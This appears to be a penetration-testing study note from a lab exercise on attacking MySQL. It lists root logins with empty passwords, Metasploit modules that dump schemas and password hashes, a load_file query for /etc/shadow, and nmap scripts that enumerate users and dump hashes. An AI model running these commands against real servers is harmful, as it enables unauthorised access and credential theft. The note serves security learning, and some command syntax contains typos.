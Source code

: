 # SQL

## Enumeration with mysql context
* Check with nmap [IP] to know if SQL is running on any of the ports on the target system
* `mysql -h [target IP] -u root` ---> -u for the username. Since the target system is running on Ubuntu as chekced in the nmap scan, "root" tends to be the default admin.
* `show databases;` ---> This can be chacked after entering the SQL context via the previous statement. Will show all the SQL DBs present on that system.
* `show tables;`
* Then we can perform SQL queries on any of these listed tables. EG: `select * from [table_name];`
* `help`

## Enumeration with msfconsole
* `use auxiliary/scanner/mysql/mysql_writable_dirs`
  * set "dir_list" to the [directory_file].txt
  * set "verbose" to false as this will avoid a flood of messages.
  * This will check the directories which are writable.
* Q5. Dump the schema of all databases from the server using suitable metasploit module?
  *Commands:
    * `use auxiliary/scanner/mysql/mysql_schemadump`
    * set RHOSTS 192.71.145.3
    * set USERNAME root
    * set PASSWORD ""
    * exploit
 
* Q7. How many of sensitive files present in /usr/share/metasploit-framework/data/wordlists/sensitive_files.txt are readable? List the names.
  * Commands:
    * use auxiliary/scanner/mysql/mysql_file_enum
    * set RHOSTS 192.71.145.3
    * set FILE_LIST /usr/share/metasploit-framework/data/wordlists/sensitive_files.txt
    * set PASSWORD ""
    * exploit
   
* Q9. How many database users are present on the database server? Lists their names and password hashes.
  * Commands:
    * use auxiliary/scanner/mysql/mysql_hashdump
    * set RHOSTS 192.71.145.3
    * set USERNAME root
    * set PASSWORD ""
    * exploit
   
* Q11. Check whether “InteractiveClient” capability is supported on the MySQL server.
  * Command: nmap --script=mysql-info -p 3306 192.71.145.3
*** 
**Significance of /etc/shadow**
* The `/etc/shadow` file is a crucial system file in Unix-like operating systems, including Linux. It plays a significant role in enhancing the security of user account passwords on a system. The significance of the `/etc/shadow` file lies in its role in storing password-related information securely:

1. **Password Hash Storage**: The primary purpose of the `/etc/shadow` file is to store password hashes for user accounts. Instead of storing actual plaintext passwords, modern Unix-like systems store password hashes, which are cryptographic representations of passwords. This adds a layer of security because plaintext passwords are not readily available to attackers in case of unauthorized access to the system.

2. **Enhanced Security**: By storing password hashes in `/etc/shadow`, the system ensures that sensitive user authentication information is protected. Only authorized processes and users with proper permissions can access this file, reducing the risk of unauthorized access.

3. **Salted Passwords**: `/etc/shadow` allows for the use of salted passwords. A salt is a random value that is combined with the user's password before hashing. Salting passwords helps prevent the use of precomputed tables (rainbow tables) for password cracking, making it more challenging for attackers to crack passwords.

4. **Shadow Password Suite**: The `/etc/shadow` file is part of the shadow password suite, which separates password-related information from the `/etc/passwd` file. This separation improves security by limiting access to sensitive data. The `/etc/passwd` file, which contains user account information, is generally readable by all users, while `/etc/shadow` is accessible only to users with specific permissions.

5. **Password Aging and Policies**: `/etc/shadow` stores information related to password aging and policies, such as password expiration dates, minimum password age, maximum password age, and password history. This allows system administrators to enforce password management policies effectively.

6. **Root Privileges**: Access to the `/etc/shadow` file is restricted to users with root (superuser) privileges. Ordinary users do not have direct access to this file, preventing them from viewing or modifying password hashes.

7. **Crucial for Security**: Compromising the `/etc/shadow` file can have severe security consequences. Unauthorized access or tampering with this file can lead to the exposure of password hashes and potentially enable password cracking attacks, putting user accounts and system security at risk.
***


* `use auxiliary/scanner/mysql/mysql_hashdump` --> this is designed to extract password hashes from a MYSQL DB server.
* `select load_file ("etc/shadow");`
* **To check if there are any accounts with empty passwords:**
  * `nmap [IP] -p 3306 --script=mysql-empty-password`
 
* **For further info on the target database**
  * `nmap [IP] -p 3306 --script=mysql-info`
 
* **To list all the MySQL users**
  * `nmap [IP] -p 3306 --script=mysql-users --script-args-"mysqluser='root',mysqlpass=''"`
 
* **To list all the databases**
  * `nmap [IP] -p 3306 --script=mysql-databases --script-args="mysqluser='root',mysqlpass=''"`
 
* **To find out location of all the variables associated with the DB**
  * `nmap [IP] -p 3306 --script=mysql-variables --script-args="mysqluser='root',mysqlpass=''"`
  * The most important of the variables in this output will be the location of "datadir" variable
 
* **To audit the MySQL DB**
  * `nmap [IP] -p 3306 --script=mysql-audit --script-args="mysql-audit.username='root',mysql-audit-password='',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'"`
 
* **To list all the hashes**
  * `nmap [IP] -p 3306 --script-args=mysql-dump-hashes --script-args="username='root',password=''"`
 
* **To pass a query in an nmap script**
  * `nmap [IP] -p 3306 --script=mysql-query --script-args="query='select count(*) from [DB-name].[table-name]',username='root',password=''"`

